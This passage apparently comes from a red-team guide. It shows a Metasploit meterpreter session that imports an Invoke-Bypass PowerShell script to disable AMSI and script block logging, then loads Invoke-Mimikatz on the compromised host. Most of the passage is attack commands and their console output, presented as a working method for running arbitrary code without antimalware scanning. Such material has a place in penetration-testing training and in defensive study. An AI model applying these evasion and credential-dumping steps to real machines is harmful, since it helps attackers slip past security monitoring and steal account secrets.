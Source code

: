 We can also use the AMSI bypass to execute arbitrary PowerShell code on the machine from a meterpreter session. If we try to _execute_ `'amsiutils'` in a PowerShell session you will get something like this:

```asd
msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_execute "'amsiutils'"
[+] Command execution completed:
ERROR:
```

but if we import [Invoke-Bypass](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) and execute the bypasses, we are then allowed to run any kind of command, including, for example, [Invoke-Mimikatz](https://github.com/d0nkeys/redteam/blob/master/credentials/Invoke-Mimikatz.ps1).

```
meterpreter > powershell_import Invoke-Bypass.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute "Invoke-BypassScriptBlockLog"
[+] Command execution completed:

meterpreter > powershell_execute "Invoke-BypassAMSI"
[+] Command execution completed:

meterpreter > powershell_execute "'amsiutils'"
[+] Command execution completed:
amsiutils

meterpreter > powershell_import Invoke-Mimikatz.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute "Invoke-Mimikatz -Command coffee"
[+] Command execution completed:

  .#####.   mimikatz 2.1.1 (x64) #17763 Dec 31 2018 01:15:11
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

meterpreter >
```
